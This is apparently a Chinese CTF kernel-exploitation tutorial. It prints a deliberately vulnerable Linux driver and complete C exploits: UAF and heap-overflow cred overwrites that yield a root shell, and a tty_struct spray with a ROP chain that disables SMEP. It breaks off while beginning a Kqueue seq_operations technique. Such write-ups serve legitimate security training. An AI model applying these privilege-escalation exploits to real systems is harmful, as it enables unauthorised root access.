
# 参考资料
[https://blog.wingszeng.top/kernel-pwn-syscall-userfaultfd-and-syscall-setxattr/](https://blog.wingszeng.top/kernel-pwn-syscall-userfaultfd-and-syscall-setxattr/)
[https://blog.csdn.net/qq_45323960/article/details/130660417?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522171982506416800211525431%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=171982506416800211525431&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-130660417-null-null.nonecase&utm_term=kernel&spm=1018.2226.3001.4450](https://blog.csdn.net/qq_45323960/article/details/130660417?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522171982506416800211525431%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=171982506416800211525431&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-130660417-null-null.nonecase&utm_term=kernel&spm=1018.2226.3001.4450)

本文首发于奇安信攻防社区 [https://forum.butian.net/share/3738](https://forum.butian.net/share/3738)
# 释放后使用（Use After Free）
例题：`heap bof` 
开启了 kaslr、smep 和 smap。

cred 结构体大小为 0xa8。根据 slub 的分配机制，如果先分配并释放一个大小为 0xa8（实际为 0xe0）的内存块，再创建新线程，那么该线程的 cred 结构体恰好就是刚刚释放的内存块。利用 UAF 漏洞修改 cred，即可实现提权。


不过，在较新版本中，cred_jar 不再与其他相同大小的 slab 合并；释放的 cred 结构体只会归还 cred_jar，不会合并到其他 slab 中。

这是因为创建 cred_jar 时设置了 SLAB_ACCOUNT 标志。当 CONFIG_MEMCG_KMEM=y（默认开启）时，cred_jar 不再与同样大小的 kmalloc-192 合并（可以理解为 cred_jar 需要单独统计内存使用量，因此不允许与其他 slab 合并）。


给出了源码

```c
#include <asm/uaccess.h>
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/fs.h>
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/slab.h>
#include <linux/types.h>

struct class *bof_class;
struct cdev cdev;
int bof_major = 256;
char *ptr[40];// 指针数组，用于存放分配的指针
struct param { 
    size_t len;       // 内容长度
    char *buf;        // 用户态缓冲区地址
    unsigned long idx;// 表示 ptr 数组的 索引
};

long bof_ioctl(struct file *filp, unsigned int cmd, unsigned long arg) {
    struct param p_arg;
    copy_from_user(&p_arg, (void *) arg, sizeof(struct param));
    long retval = 0;
    switch (cmd) {
        case 9:
            copy_to_user(p_arg.buf, ptr[p_arg.idx], p_arg.len);
            printk("copy_to_user: 0x%lx\n", *(long *) ptr[p_arg.idx]);
            break;
        case 8:
            copy_from_user(ptr[p_arg.idx], p_arg.buf, p_arg.len);
            break;
        case 7:
            kfree(ptr[p_arg.idx]);
            printk("free: 0x%p\n", ptr[p_arg.idx]);
            break;
        case 5:
            ptr[p_arg.idx] = kmalloc(p_arg.len, GFP_KERNEL);
            printk("alloc: 0x%p, size: %2lx\n", ptr[p_arg.idx], p_arg.len);
            break;
        default:
            retval = -1;
            break;
    }
    return retval;
}

static const struct file_operations bof_fops = {
        .owner = THIS_MODULE,
        .unlocked_ioctl = bof_ioctl,//linux 2.6.36内核之后unlocked_ioctl取代ioctl
};

static int bof_init(void) {
    //设备号
    dev_t devno = MKDEV(bof_major, 0);
    int result;
    if (bof_major)//静态分配设备号
        result = register_chrdev_region(devno, 1, "bof");
    else {//动态分配设备号
        result = alloc_chrdev_region(&devno, 0, 1, "bof");
        bof_major = MAJOR(devno);
    }
    printk("bof_major /dev/bof: %d\n", bof_major);
    if (result < 0) return result;
    bof_class = class_create(THIS_MODULE, "bof");
    device_create(bof_class, NULL, devno, NULL, "bof");
    cdev_init(&cdev, &bof_fops);
    cdev.owner = THIS_MODULE;
    cdev_add(&cdev, devno, 1);
    return 0;
}

static void bof_exit(void) {
    cdev_del(&cdev);
    device_destroy(bof_class, MKDEV(bof_major, 0));
    class_destroy(bof_class);
    unregister_chrdev_region(MKDEV(bof_major, 0), 1);
    printk("bof exit success\n");
}

MODULE_AUTHOR("exp_ttt");
MODULE_LICENSE("GPL");
module_init(bof_init);
module_exit(bof_exit);

```

通过 p_arg.idx 选择 chunk，kfree 后没有清空指针，因此还可以通过 case 9 和 case 8 再次使用。如果释放的 chunk 被重新分配，并存入与内核地址相关的内容，那么 `case 9: copy_to_user` 就可以将该内核地址复制到用户空间，从而泄露内核地址。另外，case 8 没有长度限制，长度由用户输入决定，因此还存在堆溢出。

## CPU 绑定
注意：由于开启了 `-smp cores=2,threads=2 \`，CPU 切换会导致 kmalloc-cache-cpu 切换，因此新分配的对象不一定是刚刚 kfree 的那个。所以需要将进程绑定到一个 CPU 核心上。不绑定也有一定概率成功。

```c
#define __USE_GNU
#include <sched.h>
/* to run the exp on the specific core only */
void bind_cpu(int core)
{
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}
bind_cpu(sched_getcpu());
```

## cred_jar 可以合并
此时 cred chunk 与相同大小的 chunk 没有区分，因此可以通过刚刚释放的同大小 chunk 得到 cred。

所以先释放一个与 cred 大小相同的堆块，再创建子线程；子线程的 cred 就会占用刚才释放的 chunk。然后通过 case 8 修改之前释放的 chunk，覆盖 cred 结构体，将其中的 uid 和 gid 设为 0。
```c
 4.5 kernel/cred.c

void __init cred_init(void)
{
	/* allocate a slab in which we can store credentials */
	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred), 0,
			SLAB_HWCACHE_ALIGN|SLAB_PANIC|SLAB_ACCOUNT, NULL);
}

本题（4.4.72）：

void __init cred_init(void)
{
	/* allocate a slab in which we can store credentials */
	cred_jar = kmem_cache_create("cred_jar", sizeof(struct cred),
				     0, SLAB_HWCACHE_ALIGN|SLAB_PANIC, NULL);
}

```
### exp
> 注意：这里在用户空间定义 `struct param *p_arg;` 不行，因为内核中的 `copy_from_user(&p_arg, (void *) arg, sizeof(struct param));` 是从传入地址复制内容。如果是 `struct param *p_arg`，传入的只是一个用户空间指针；而使用 `struct param p_arg` 时，传入的是 `&p_arg`，p_arg 相关变量会放到栈上。

```c
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <sys/wait.h>

struct param {
    size_t len;       // 内容长度
    char *buf;        // 用户态缓冲区地址
    unsigned long idx;// 表示 ptr 数组的 索引
};
struct param p_arg;


int main(){
    int fd1=open("/dev/bof", O_RDWR);

    p_arg.len=0xa8;
    p_arg.buf=malloc(0xa8);
    p_arg.idx=0;

    ioctl(fd1,5,&p_arg);
    ioctl(fd1,7,&p_arg);
    if(!fork())
    {   
        p_arg.len=0x28;
        p_arg.buf=malloc(0x28);
        p_arg.idx=0;
        memset(p_arg.buf,0,p_arg.len);
        ioctl(fd1,8,&p_arg);
        if (getuid()==0)
        {
             puts("[+]root success");
            system("/bin/sh");
        }
    }
    else {
        wait(NULL);
    }
}
```



## cred_jar 不可合并

### 利用 tty_struct 劫持程序控制流提权
[https://bbs.kanxue.com/thread-270081.htm#msg_header_h1_2](https://bbs.kanxue.com/thread-270081.htm#msg_header_h1_2)

> tty_struct 结构体位于 include/linux/tty.h，tty_operations 位于 include/linux/tty_driver.h。

 /dev 下有一个伪终端设备 ptmx。调用 open("/dev/ptmx") 时，会从 kmalloc-1k 中分配一个 tty_struct（0x2b8）。与其他类型设备一样，tty 驱动中也包含一个函数指针结构体：tty_operations。

```c
struct tty_struct {
    int magic;
    struct kref kref;
    struct device *dev;
    struct tty_driver *driver;
    const struct tty_operations *ops;
    int index;
 
    /* Protects ldisc changes: Lock tty not pty */
    struct ld_semaphore ldisc_sem;
    struct tty_ldisc *ldisc;
 
    struct mutex atomic_write_lock;
    struct mutex legacy_mutex;
    struct mutex throttle_mutex;
    struct rw_semaphore termios_rwsem;
    struct mutex winsize_mutex;
    spinlock_t ctrl_lock;
    spinlock_t flow_lock;
    /* Termios values are protected by the termios rwsem */
    struct ktermios termios, termios_locked;
    struct termiox *termiox; /* May be NULL for unsupported */
    char name[64];
    struct pid *pgrp; /* Protected by ctrl lock */
    struct pid *session;
    unsigned long flags;
    int count;
    struct winsize winsize; /* winsize_mutex */
    unsigned long stopped:1, /* flow_lock */
        flow_stopped:1,
        unused:BITS_PER_LONG - 2;
    int hw_stopped;
    unsigned long ctrl_status:8, /* ctrl_lock */
        packet:1,
        unused_ctrl:BITS_PER_LONG - 9;
    unsigned int receive_room; /* Bytes free for queue */
    int flow_change;
 
    struct tty_struct *link;
    struct fasync_struct *fasync;
    int alt_speed; /* For magic substitution of 38400 bps */
    wait_queue_head_t write_wait;
    wait_queue_head_t read_wait;
    struct work_struct hangup_work;
    void *disc_data;
    void *driver_data;
    struct list_head tty_files;
 
#define N_TTY_BUF_SIZE 4096
 
    int closing;
    unsigned char *write_buf;
    int write_cnt;
    /* If the tty has a pending do_SAK, queue it here - akpm */
    struct work_struct SAK_work;
    struct tty_port *port;
};

struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver,
    struct inode *inode, int idx);
    int (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int (*write)(struct tty_struct * tty,
        const unsigned char *buf, int count);
    int (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    int (*write_room)(struct tty_struct *tty);
    int (*chars_in_buffer)(struct tty_struct *tty);
    int (*ioctl)(struct tty_struct *tty,
        unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
        unsigned int cmd, unsigned long arg);
    void (*set_termios)(struct tty_struct *tty, struct ktermios * old);
    void (*throttle)(struct tty_struct * tty);
    void (*unthrottle)(struct tty_struct * tty);
    void (*stop)(struct tty_struct *tty);
    void (*start)(struct tty_struct *tty);
    void (*hangup)(struct tty_struct *tty);
    int (*break_ctl)(struct tty_struct *tty, int state);
    void (*flush_buffer)(struct tty_struct *tty);
    void (*set_ldisc)(struct tty_struct *tty);
    void (*wait_until_sent)(struct tty_struct *tty, int timeout);
    void (*send_xchar)(struct tty_struct *tty, char ch);
    int (*tiocmget)(struct tty_struct *tty);
    int (*tiocmset)(struct tty_struct *tty,
        unsigned int set, unsigned int clear);
    int (*resize)(struct tty_struct *tty, struct winsize *ws);
    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);
    int (*get_icount)(struct tty_struct *tty,
    struct serial_icounter_struct *icount);
#ifdef CONFIG_CONSOLE_POLL
    int (*poll_init)(struct tty_driver *driver, int line, char *options);
    int (*poll_get_char)(struct tty_driver *driver, int line);
    void (*poll_put_char)(struct tty_driver *driver, int line, char ch);
#endif
    const struct file_operations *proc_fops;
};

```
其中 magic 字段为魔数，值为 0x5401。

使用 tty 设备的前提是挂载 ptmx 设备。

```bash

mkdir /dev/pts
mount -t devpts none /dev/pts
chmod 777 /dev/ptmx
```
- 泄露内核基址
需要读原语。可以利用偏移 0x18 处的 ops = ptm_unix98_ops：关闭 kaslr 时，从 kallsyms 中读出 ptm_unix98_ops；泄露的地址减去它，即可得到内核基址。


- 泄露 kmalloc-1k 堆地址
需要读原语。可以利用偏移 0x38 处的链表指针，该指针初始时指向自身。读出后减去 0x38，即为当前 tty_struct 的地址，也就是某个 kmalloc-1k 堆地址。


- 劫持程序流程
需要写原语，将 ops 覆盖为伪造的 tty_operations。由于 tty_operations 结构体中的某个函数指针只能写入一个 gadget，除了使用 pt_regs + ret2dir，还可以利用 tty_struct 调用 tty_operations 中函数指针的特点。

- write (tty_write->do_tty_write->n_tty_write->pty_write)
例如使用 write：跳转到 write 时（断点下在 pty_write），观察寄存器会发现 rax 为 tty_struct.ops。可以寻找 mov rsp, rax 一类的 gadget 进行栈迁移，这样就能将 tty_struct.ops 之前的数据覆盖为 ROP。不过，这里的空间有些小，放不下 ROP，因此还需要再次进行栈迁移。

但需要注意，劫持 write 会触发 tty 魔数检查。



- ioctl （tty_ioctl->pty_unix98_ioctl）
也可以使用 ioctl，通过传入参数控制某些寄存器的值。注意，使用 ioctl 时魔数必须正确，driver 必须是内核堆地址。
执行到这里时，rbp = &tty_struct（有时 rbp 并不是 &tty_struct）。如果将 tty->op->ioctl 设为 `leave; ret`，就会先将栈迁移到 &tty_struct + 0x8。将这里设为 `pop rsp; ret`，再将 &tty_struct + 0x10（.driver）设为已布置 ROP 链的内核堆地址，就能完成第二次栈迁移。

  此外，此时 rax 是 pty_unix98_ioctl 函数的地址。如果使用 `xchg eax, esp; ret`，栈会迁移到 rax & 0xffffffff，落在用户空间。此时可以在用户空间 mmap 一条 ROP 链，但要求关闭 smap。

- 可以发现，此时 rdi 恰好是 tty_struct 的地址，也能用于利用。

这里将 tty_operations 覆盖为用户空间伪造的 tty_operations，因此必须关闭 smap。

- 如果开启了 smap 呢？由于其他部分可控，只需保证 tty_operations 位于内核中。可以将 ops 函数表指针覆盖为 tty_addr + 0x20 - 0x60，使 ioctl 指向 tty_addr + 0x20，而这个位置是可控的。在这里放入栈迁移 gadget 的地址即可，其他函数同理。

> 对 write，建议将 ROP 链构造在 op 上；对 ioctl，可以将 ROP 链构造在 tty 上。
### exp

```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/mman.h>
#include <sys/ioctl.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

size_t pop_rdi_ret = 0xffffffff8109047d;
size_t mov_cr4_rdi_pop_rbp_ret = 0xffffffff81004d70;
size_t swapgs_pop_rbp_ret = 0xffffffff81063654;
size_t iretq = 0xffffffff8107c0a6;
size_t xchg_eax_esp_ret = 0xffffffff8100008a;

struct tty_operations {
    struct tty_struct *(*lookup)(struct tty_driver *driver, struct file *filp, int idx);

    int (*install)(struct tty_driver *driver, struct tty_struct *tty);

    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);

    int (*open)(struct tty_struct *tty, struct file *filp);

    void (*close)(struct tty_struct *tty, struct file *filp);

    void (*shutdown)(struct tty_struct *tty);

    void (*cleanup)(struct tty_struct *tty);

    int (*write)(struct tty_struct *tty, const unsigned char *buf, int count);

    int (*put_char)(struct tty_struct *tty, unsigned char ch);

    void (*flush_chars)(struct tty_struct *tty);

    int (*write_room)(struct tty_struct *tty);

    int (*chars_in_buffer)(struct tty_struct *tty);

    int (*ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);

    long (*compat_ioctl)(struct tty_struct *tty, unsigned int cmd, unsigned long arg);

    void (*set_termios)(struct tty_struct *tty, struct ktermios *old);

    void (*throttle)(struct tty_struct *tty);

    void (*unthrottle)(struct tty_struct *tty);

    void (*stop)(struct tty_struct *tty);

    void (*start)(struct tty_struct *tty);

    void (*hangup)(struct tty_struct *tty);

    int (*break_ctl)(struct tty_struct *tty, int state);

    void (*flush_buffer)(struct tty_struct *tty);

    void (*set_ldisc)(struct tty_struct *tty);

    void (*wait_until_sent)(struct tty_struct *tty, int timeout);

    void (*send_xchar)(struct tty_struct *tty, char ch);

    int (*tiocmget)(struct tty_struct *tty);

    int (*tiocmset)(struct tty_struct *tty, unsigned int set, unsigned int clear);

    int (*resize)(struct tty_struct *tty, struct winsize *ws);

    int (*set_termiox)(struct tty_struct *tty, struct termiox *tnew);

    int (*get_icount)(struct tty_struct *tty, struct serial_icounter_struct *icount);

    const struct file_operations *proc_fops;
};

struct param {
    size_t len;
    char *buf;
    long long idx;
};
#define KERNCALL __attribute__((regparm(3)))

void *(*prepare_kernel_cred)(void *)KERNCALL =(void *) 0xffffffff810a1730;

void *(*commit_creds)(void *)KERNCALL =(void *) 0xffffffff810a1340;

void get_shell() { system("/bin/sh"); }

void get_root() { commit_creds(prepare_kernel_cred(0)); }

size_t user_cs, user_rflags, user_sp, user_ss;

void save_status() {
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*] status has been saved.");
}

#define __USE_GNU

#include <sched.h>

void bind_cpu(int core) {
    cpu_set_t cpu_set;

    CPU_ZERO(&cpu_set);
    CPU_SET(core, &cpu_set);
    sched_setaffinity(getpid(), sizeof(cpu_set), &cpu_set);
}

const int BOF_NUM = 40;
const int PTMX_NUM = 0x100;

int main() {
    bind_cpu(sched_getcpu());

    int bof_fd = open("/dev/bof", O_RDWR);
    if (bof_fd == -1) {
        puts("[-] open bof device failed!");
        return -1;
    }

    struct param p;
    p.buf = malloc(p.len = 0x2e0);

    // 让驱动分配 BOF_NUM 个 0x2e0  的内存块
    for (p.idx = BOF_NUM - 1; p.idx >= 0; p.idx--) {
        ioctl(bof_fd, 5, &p); // malloc
    }

    // 释放 BOF_NUM 个申请的内存块
    for (p.idx = BOF_NUM - 1; p.idx >= 0; p.idx--) {
        ioctl(bof_fd, 7, &p);  // free
    }

    // 批量 open /dev/ptmx, 喷射 tty_struct
    int ptmx_fds[PTMX_NUM];
    for (int i = 0; i < PTMX_NUM; ++i) {
        ptmx_fds[i] = open("/dev/ptmx", O_RDWR | O_NOCTTY);
        if (ptmx_fds[i] == -1) {
            puts("[-] open ptmx err");
        }
    }

    p.idx = 0;
    ioctl(bof_fd, 9, &p);
    // 此时如果释放后的内存被 tty_struct 占用，那么他的开始字节序列应该为 1 54  0  0  1  0  0  0  0  0  0  0  0  0  0  0
    for (int i = 0; i < 16; ++i) {
        printf("%2x%c", p.buf[i], i == 15 ? '\n' : ' ');
    }

    // 利用 tty_operations 指针泄露内核基址
    size_t offset = (*(size_t *) &p.buf[0x18]) - 0xffffffff81a8b020;
    printf("[*] offset: %p\n", offset);
    commit_creds = (void *) ((size_t) commit_creds + offset);
    prepare_kernel_cred = (void *) ((size_t) prepare_kernel_cred + offset);
    pop_rdi_ret += offset;
    mov_cr4_rdi_pop_rbp_ret += offset;
    swapgs_pop_rbp_ret += offset;
    iretq += offset;
    xchg_eax_esp_ret += offset;

    // 伪造 tty_operations 结构体
    struct tty_operations *fake_tty_operations = (struct tty_operations *) malloc(sizeof(struct tty_operations));
    memset(fake_tty_operations, 0, sizeof(struct tty_operations));
    fake_tty_operations->ioctl = (void *) xchg_eax_esp_ret;
    fake_tty_operations->close = (void *) xchg_eax_esp_ret;

    // 布局 rop 链
    save_status();
    size_t rop_chain[] = {
            pop_rdi_ret,
            0x6f0,
            mov_cr4_rdi_pop_rbp_ret,
            0,
            (size_t) get_root,
            swapgs_pop_rbp_ret,
            0,//padding
            iretq,
            (size_t) get_shell,
            user_cs,
            user_rflags,
            user_sp,
            user_ss
    };

    // 触发漏洞前先把 rop 链拷贝到 mmap_base
    void *mmap_base = (void *) (xchg_eax_esp_ret & 0xffffffff);
    void *mmap_addr = mmap(mmap_base - 0x1000, 0x30000, 7, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    printf("[*] mmap_addr: %p\n", mmap_addr);
    memset(mmap_addr, 0, 0x30000);
    memcpy(mmap_base, rop_chain, sizeof(rop_chain));

    // 批量修改 tty_struct 的 ops 指针
    *(size_t *) &p.buf[0x18] = (size_t) fake_tty_operations;
    for (p.idx = 0; p.idx < BOF_NUM; p.idx++) {
        ioctl(bof_fd, 8, &p);
    }

    // 调用 tty_operations.ioctl 和 tty_operations.close 触发漏洞
    for (int i = 0; i < PTMX_NUM; ++i) {
        ioctl(ptmx_fds[i], 0, 0);
    }

    return 0;
}

```

# 堆溢出
[查看 slab 缓存使用情况](https://www.cnblogs.com/arnoldlu/p/10769376.html)——也可以使用 sudo slabtop 动态查看。
## 通过堆布局溢出修改 cred
通过溢出覆盖 cred，与前面 UAF 修改 cred 一样，在较新版本中已不可行，因为它们不在同一个 cache 中，内存不一定相邻。

kalloc 会自动调整大小，可以查看 /proc/slabinfo；通常会向上取整。
这里一般利用分配大小与 cred 大小落入同一个 kmem-cache 的特点。大量分配，使 slub freelist 中的对象地址保持连续，接下来的两个对象也就相邻，从而实现溢出。或者从 kmem-cache 中分配大量相同大小的对象，再释放其中一个；随后 fork 就可能分配到刚刚释放的那个，而释放对象之前的 chunk 就与它相邻。
### exp
```c
#include <stdio.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>
#include <sys/wait.h>

struct param {
    size_t len;    // 内容长度
    char *buf;     // 用户态缓冲区地址
    long long idx; // 表示 ptr 数组的 索引
};

int main(void) {
    int bof_fd = open("/dev/bof", O_RDWR);
    if (bof_fd == -1) {
        puts("[-] Failed to open bof device.");
        exit(-1);
    }
    struct param p = {0xa8, malloc(0xa8), 0};
    ioctl(bof_fd, 5, &p);  // malloc
    
    puts("[*] clear heap done");

    p.idx=1;
    ioctl(bof_fd, 5, &p);  // malloc
    
    ioctl(bof_fd, 7, &p); // free

    int pid = fork();
    if (pid < 0) {
        puts("[-] fork error");
        exit(-1);
    }

   p.len=0xc0 + 0x28;
   p.buf=malloc( 0xc0 + 0x28);
   p.idx=0;
    memset(p.buf, 0, p.len);
    ioctl(bof_fd, 8, &p);
    if (!pid) {
        size_t uid = getuid();
        printf("[*] uid: %zx\n", uid);
        if (!uid) {
            puts("[+] root success");
            system("/bin/sh");
        } else {
            puts("[-] root fail");
        }
    } else {
        wait(0);
    }
    return 0;
}
```


## 堆溢出 + 堆喷，覆盖 seq_operations 以控制内核执行流
[InCTF-Kqueue](https://blog.csdn.net/qq_54218833/article/details/124521291?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522172258946616800184152959%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=172258946616800184152959&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-3-124521291-null-null.nonecase&utm_term=%E5%86%85%E6%A0%B8&spm=1018.2226.3001.4450)
只开启了 kaslr，没有开启 KPTI 和 smap&smep。
所给源码的大致逻辑如下：
 
- ioctl 根据命令分派到相应函数：添加、删除、编辑或保存。
- create_kqueue 创建一个队列，大致布局如下；这块内存的起始地址保存在 kququs 数组中。



```c
 if(__builtin_umulll_overflow(sizeof(queue_entry),(request.max_entries+1),&space) == true)
        err("[-] Integer overflow");

    /* Size is the size of queue structure + size of entry * request entries */
    ull queue_size = 0;
    if(__builtin_saddll_overflow(sizeof(queue),space,&queue_size) == true)
        err("[-] Integer overflow");
```
request.max_entries 为 0xffffffff 时，request.max_entries+1 = 0，因此 queue_size = sizeof(queue)，也就是队列只有 queue 本身，没有 entry。
- delete_kqueue 根据请求中的 queue_idx 释放对应的 kqueues。
- edit_kqueue 根据请求中的 queue_idx 定位 queue，再根据 entry_idx 定位 entry，将请求中 data 指向的内容复制到 entry 的 data 指针所指向的位置。
- 首先根据 queue_idx 找到 queue；save_kqueue_entries 分配 queue_size 字节，并将该队列的 queue->data 和所有 kqueue_entry->data 存入其中。

    `err("[-] Entry size limit exceed");` 函数只打印消息，没有其他影响。与前面一样，如果是 0x20，而这里的 data_size 是用户可控参数，data 也是用户参数，就会存在任意长度溢出。

```c
